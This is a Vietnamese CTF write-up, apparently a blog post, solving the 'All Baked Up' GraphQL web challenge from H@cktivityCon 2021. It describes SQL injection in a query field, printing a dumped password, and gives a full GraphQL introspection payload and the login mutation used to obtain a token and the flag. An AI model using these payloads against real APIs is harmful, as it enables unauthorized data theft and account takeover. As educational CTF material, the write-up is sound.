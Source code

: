 ```yaml
---
title: All Baked Up - H@cktivityCon 2021 CTF
author: HoangND
date: 2021-09-19 19:00:00 +0700
categories: [Writeups, H@cktivityCon 2021 CTF]
tags: [graphql, web, sqli]
---
```


All Baked Up là một trang web được dùng để lưu giữ các công thức làm bánh. Chức năng chỉ dừng lại ở trang liệt kê danh sách và truy cập cụ thể vào từng loại bánh thôi.

![image](https://user-images.githubusercontent.com/61985236/133925541-93711063-56f1-4c48-b1f3-5e0f20b560de.png)

Phân tích các request của nó

![image](https://user-images.githubusercontent.com/61985236/133925563-52393185-11ed-428f-b5a7-61f1220ebd08.png)

Vậy là trang web sử dụng công nghệ graphql để thực hiện truy vấn. Vậy chính xác graphql là gì thì mình sẽ mô tả ngắn gọn những gì cần thiết vào blog này vì mình cũng mới tìm hiểu về nó thôi.

GraphQL là ngôn ngữ truy vấn cho các API và runtime để thực hiện các truy vấn đó với dữ liệu. Nghĩa là người dùng sẽ tương tác với API thông qua graphql

![image](https://user-images.githubusercontent.com/61985236/133925714-1ee62ce8-a70a-4019-a78f-4c3ecdae1b7f.png)

Mục đích của graphql là tạo ra một endpoint đơn giản dễ hiểu dễ sử dụng để handle tất cả các endpoint phức tạp còn lại. Về operation trong graphql có hai kiểu chính là query và mutation. Ở đây query tương đương với câu lệnh select bình thường, trong khi đó mutation thường thực hiện các thao tác thay đổi bên trong dữ liệu (create, update, delete). Để dễ hình dung thì ý tưởng của query và mutation tương đương với get, post về mặt convention. Phân tích qua một chút về payload trong request của bài này

![image](https://user-images.githubusercontent.com/61985236/133934054-76bb9e49-8592-4310-a4eb-baebd4d71696.png)

Truy vấn được thực hiện có tên là UserQuery, kiểu truy vấn là Query. Bên trong truy vấn thực hiện lấy post thông qua việc kiểm tra thuộc tính name. 

Bây giờ đã hiểu qua về graphql, bây giờ thử detect sqli xem thế nào, ở đây mình thử detect trong trường name bằng cách dấu '

![image](https://user-images.githubusercontent.com/61985236/133933080-d15d081d-77d7-411c-b215-6b2736c059f7.png)

Kết quả trả về lỗi sql, như vậy có thể thực hiện sqli ở trường này, tiếp tục sqli với union mình thu được 

![image](https://user-images.githubusercontent.com/61985236/133933095-0124a2d0-899e-4fe1-b71d-4c1eaa21f7f8.png)

Vậy có thể retrieve dữ liệu thông qua các vị trí 2,3,4,6. Tiếp theo là bước SQLi đơn giản mình xin phép lướt qua. Kết quả mình đạt được là trang web sử dụng cơ sở dữ liệu 
SQLite, có hai table là users và posts. Bên trong post không có gì hay ho vì đã hiển thị hên lên giao diện người dùng rồi. Kiểm tra users thì thấy có một user duy nhất là tên của tác giả bài này.

![image](https://user-images.githubusercontent.com/61985236/133933222-431f5016-d59a-45c7-8852-e1eccdfec423.png)

Như vậy mình đã có được thông tin đăng nhập của một user, tuy nhiên trang đăng nhập ở đâu ??????. Sau đó mình sử dụng công cụ Gobuster để kiểm tra các endpoint, tuy nhiên không có bất kỳ endpoint nào cho việc đăng nhập. Để ý kỹ thì trong request của mình có trường session, decode ra thấy thông tin đăng nhập là guest, hẳn là phải có một cách thức đăng nhập nào đó. 

Sau đó mình tìm kiếm các lỗi graphql trên mạng, và tìm thấy có thứ gọi là ***__schema***. Đây là một system type chứa các thông tin về query cũng như mutation (tương tự information_schema của Mysql). Ăn sẵn bê luôn payload trên mạng vào 🙏.

```
"query":"query UserQuery {\n__schema{\nqueryType{\nname\n}mutationType{\nname\n}subscriptionType{\nname\n}types{\n...FullType\n}directives{\nname description locations args{\n...InputValue\n}\n}\n}\n}fragment FullType on __Type{\nkind name description fields(includeDeprecated:true){\nname description args{\n...InputValue\n}type{\n...TypeRef\n}isDeprecated deprecationReason\n}inputFields{\n...InputValue\n}interfaces{\n...TypeRef\n}enumValues(includeDeprecated:true){\nname description isDeprecated deprecationReason\n}possibleTypes{\n...TypeRef\n}\n}fragment InputValue on __InputValue{\nname description type{\n...TypeRef\n}defaultValue\n}fragment TypeRef on __Type{\nkind name ofType{\nkind name ofType{\nkind name ofType{kind name ofType{\nkind name ofType{\nkind name ofType{\nkind name ofType{\nkind name\n}\n}\n}\n}\n}\n}\n}\n}\n"
```

Kết của trả về chứa các query và mutation được hỗ trợ, ở đây mình tìm thấy một query để lấy flag

```json
{
    "args": [

    ],
    "deprecationReason": null,
    "description": "",
    "isDeprecated": false,
    "name": "flag",
    "type": {
        "kind": "SCALAR",
        "name": "String",
        "ofType": null
    }
}
```

Thử luôn xem lấy được flag không

![image](https://user-images.githubusercontent.com/61985236/133935015-97c01c93-ca91-41e5-b4be-7ef49bc4448b.png)

Vậy là bắt buộc phải đăng nhập và lấy được token. Tiếp tục tìm kiếm bên trong __schema, mình tìm thấy một mutation xác thực user

```json
{
    "args": [{
            "defaultValue": null,
            "description": "",
            "name": "username",
            "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                    "kind": "SCALAR",
                    "name": "String",
                    "ofType": null
                }
            }
        },
        {
            "defaultValue": null,
            "description": "",
            "name": "password",
            "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                    "kind": "SCALAR",
                    "name": "String",
                    "ofType": null
                }
            }
        }
    ],
    "deprecationReason": null,
    "description": "",
    "isDeprecated": false,
    "name": "authenticateUser",
    "type": {
        "kind": "OBJECT",
        "name": "Auth",
        "ofType": null
    }
}
```

Từ thuộc tính type mình biết được mutation này trả về object kiểu Auth, ngay dưới mutation này có mô tả về type Auth

```json
{
    "description": "Auth info for a user",
    "enumValues": null,
    "fields": [{
            "args": [

            ],
            "deprecationReason": null,
            "description": "The token",
            "isDeprecated": false,
            "name": "token",
            "type": {
                "kind": "SCALAR",
                "name": "String",
                "ofType": null
            }
        },
        {
            "args": [

            ],
            "deprecationReason": null,
            "description": "The user",
            "isDeprecated": false,
            "name": "user",
            "type": {
                "kind": "NON_NULL",
                "name": null,
                "ofType": {
                    "kind": "OBJECT",
                    "name": "User",
                    "ofType": null
                }
            }
        }
    ],
    "inputFields": null,
    "interfaces": [

    ],
    "kind": "OBJECT",
    "name": "Auth",
    "possibleTypes": null
}
```

Bên trong Auth có trường token. Túm váy lại, mình sẽ tạo mutation và truyền vào username và password sau đó lấy token từ response cho việc xác thực. Payload cuối cùng để đăng nhập như sau

```json
{
    "operationName":"UserMutation",
    "variables":{
        "username":"congon4tor",
        "password":"n8bboB!3%vDwiASVgKhv"
    },
    "query":"mutation UserMutation($username:String!, $password:String!) {\nauthenticateUser(username:$username, password:$password){\ntoken\n}\n}\n"
}
```

![image](https://user-images.githubusercontent.com/61985236/133935169-31320782-26f9-4823-bbce-9c3d0748748f.png)

Lấy được token rồi, quay lại lấy flag thôi. Thêm header Authorization vào request.

![image](https://user-images.githubusercontent.com/61985236/133935205-e255e120-76dd-4dec-baa9-fd5c61c4167a.png)



